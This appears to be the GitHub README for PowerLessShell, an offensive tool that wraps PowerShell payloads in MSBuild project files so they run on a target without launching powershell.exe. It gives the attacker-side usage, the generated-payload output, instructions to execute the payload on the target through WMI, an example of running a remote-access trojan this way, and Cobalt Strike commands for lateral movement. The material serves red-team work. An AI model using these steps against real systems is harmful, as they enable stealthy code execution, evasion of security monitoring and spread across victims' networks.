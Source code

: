 # PowerLessShell

PowerLessShell rely on MSBuild.exe to remotely execute PowerShell scripts and commands without spawing powershell.exe

# Usage

Attacker side
```
$ python PowerLessShell.py


PowerLessShell - Remain Stealth
         More PowerShell Less Powershell.exe - Mr.Un1k0d3r RingZer0 Team
            ___
        .-"; ! ;"-.
      .'!  : | :  !`.
     /\  ! : ! : !  /\
    /\ |  ! :|: !  | /\
   (  \ \ ; :!: ; / /  )
  ( `. \ | !:|:! | / .' )
  (`. \ \ \!:|:!/ / / .')
   \ `.`.\ |!|! |/,'.' /
    `._`.\\!!!// .'_.'
       `.`.\|//.'.'
        |`._`n'_.'|
        `----^----"



(Path to the PowerShell script)>>> powershell.ps1

(Path for the generated MsBuild out file)>>> payload.csproj


[+] payload.csproj was generated.
[+] payload.csproj.cmd was generated.
[+] Run the command inside of payload.csproj.cmd on the target system using WMI.
```

Inline command
```
python PowerLessShell.py powershell.ps1 output


PowerLessShell - Remain Stealth
         More PowerShell Less Powershell.exe - Mr.Un1k0d3r RingZer0 Team
            ___
        .-"; ! ;"-.
      .'!  : | :  !`.
     /\  ! : ! : !  /\
    /\ |  ! :|: !  | /\
   (  \ \ ; :!: ; / /  )
  ( `. \ | !:|:! | / .' )
  (`. \ \ \!:|:!/ / / .')
   \ `.`.\ |!|! |/,'.' /
    `._`.\\!!!// .'_.'
       `.`.\|//.'.'
        |`._`n'_.'|
        `----^----"




[+] output was generated.
[+] output.cmd was generated.
[+] Run the command inside of output.cmd on the target system using WMI.
```

# Example

The following example is running the RC4 RAT https://github.com/Mr-Un1k0d3r/RC4-PowerShell-RAT without running a single instance of PowerShell

![PowerLessShell](https://ringzer0team.com/powershellless.png)

# Cobalt Strike Aggressor script (wmi_msbuild.cna) By MrT-F

cd into your cobalt strike client directory
```
cd /root/cobaltstrike
```
Clone this repository into folder PowerLessShell
```
git clone https://github.com/Mr-Un1k0d3r/PowerLessShell.git PowerLessShell
```
Load the aggressor script in your Cobalt Strike Console
Laterally move just like other Cobalt Strike macros:
```
wmi_msbuild [target] [listener]
```

# TODO 
* MsBuild renaming
* Delete payload
# Credit
Mr.Un1k0d3r RingZer0 Team 2017

